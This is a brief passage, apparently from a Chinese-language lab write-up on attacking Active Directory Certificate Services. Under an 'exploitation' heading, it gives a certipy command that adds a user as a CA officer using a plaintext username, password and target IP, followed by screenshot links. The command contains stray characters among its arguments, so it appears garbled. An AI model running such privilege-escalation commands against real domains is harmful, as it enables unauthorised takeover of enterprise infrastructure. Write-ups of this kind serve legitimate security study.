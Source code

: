 [![](assets/1708508972-5168476e0b6ba90b91f07a5ebe1affb8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170613-4c367262-cfcf-1.png)

## 漏洞利用

添加用户到管理员

```plain
certipy ca -ca 'penson-ADCS-CA' -add-officer qxn -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21
```

[![](assets/1708508972-4416288a946afa73f4c616f24a588945.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170631-568df4c4-cfcf-1.png)
